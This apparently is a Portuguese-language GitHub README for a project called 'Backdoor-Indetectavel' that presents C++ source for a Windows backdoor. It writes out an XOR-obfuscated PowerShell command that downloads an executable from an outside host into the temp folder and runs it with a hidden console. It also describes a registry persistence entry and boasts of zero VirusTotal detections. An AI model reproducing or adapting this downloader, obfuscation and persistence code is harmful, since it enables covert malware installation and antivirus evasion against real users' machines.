 # Backdoor-Indetectavel
A função do backdoor é fazer download de um executável via powershell direto na pasta e temp, em seguida executar o arquivo, tudo usando uma função onde a janela do console fica no modo em que não seja visível para o usuário. Esse método é comum em criadores de malware, onde muitos usam métodos mais complexos para evitar a detecção, como programar um arquivo onde ele fica dormindo até alguém pressionar uma tecla, ou até atingir um certo tempo, etc..  

### Criptografia Xor
A matemática da criptografia xor que fiz foi bem simples, onde a chave da criptação é o tamanho da string vezes 2 divido por 100, fazendo com que a chave seja a própia string deseja.
```c++
void Decrypter(char CriptXor[]) {  
    int QuantidadeString = strlen(CriptXor); // Determina o tamanho da string.
    for (int i = 0; i < QuantidadeString; i++){ 
        CriptXor[i] = CriptXor[i] ^ (QuantidadeString*2/100); // A chave da criptografia é o tamanho da string * 2 / 100.
    } 
} 
```
![Encript](https://user-images.githubusercontent.com/88719652/129620582-31e6f1bc-1025-4365-8511-b6aac50d4ac0.png)

### CreateProcess
Essa parte do código cria o processo powershell usando API do windows, mas antes, A função Decrypter vai fazer a decodificação antes de abrir o processo onde os seguintes comando são coordenados para fazer o download do executável MrQuerino.exe via "wget", alocando na pasta temp com o nome de WelCome.exe e na sequência executando.

> powershell.exe wget https://github.com/andreyquerino/Backdoor-Indetectavel/blob/main/MrQuerino.exe?raw=true -o C:\\windows\\temp\\WelCome.exe;start C:\\windows\\temp\\WelCome.exe

```c++
void Run() {
   char processo[] = "sltfqpkfoo-f{f#tdfw#kwwsp9,,djwkva-`ln,bmgqfzrvfqjml,Ab`hgllq.Jmgfwf`wbufo,aola,nbjm,NqRvfqjml-f{f<qbt>wqvf#.l#@9__tjmgltp__wfns__Tfo@lnf-f{f8pwbqw#@9__tjmgltp__wfns__Tfo@lnf-f{f";
   Decrypter(processo); //Função para decriptar
   STARTUPINFO pinfo; //contém detalhes de como todas as coisas devem ser cuidadas antes do início do processo 
   PROCESS_INFORMATION info; //contém detalhes sobre o novo processo, processo pai, seu processo filho, outros threads e como ele funcionará 
   memset(&pinfo, 0, sizeof(pinfo));
   CreateProcess(NULL, processo, NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &pinfo, &info); //API CreateProcess que cria um processo powershell.exe usando a variável acima e canaliza a entrada, saída e erro para o HANDLE usando o & info criado acima
}
```
https://user-images.githubusercontent.com/88719652/129621046-196b336d-e839-473c-8691-9380c64cf998.mp4

### Persistência
Como bônus tive liberdade criar um registro de persistência no windows onde toda vez que iniciar o sistema abra o executável.<br />
![persistencia](https://user-images.githubusercontent.com/88719652/129620696-eac13434-65d5-407f-8987-7b69fdc930f2.png)


### Virus Total 
Até a data desta postam, não teve detecção no virus total.
https://www.virustotal.com/gui/file/8ff653ded39076b02dea1ab8ec367afc16d2b8e8e5f6c7e92b1a8572f2147748/detection <br />
![virus-total](https://user-images.githubusercontent.com/88719652/129620707-6fe47fc6-3df1-44e9-aea7-15f0c8aa3494.png)

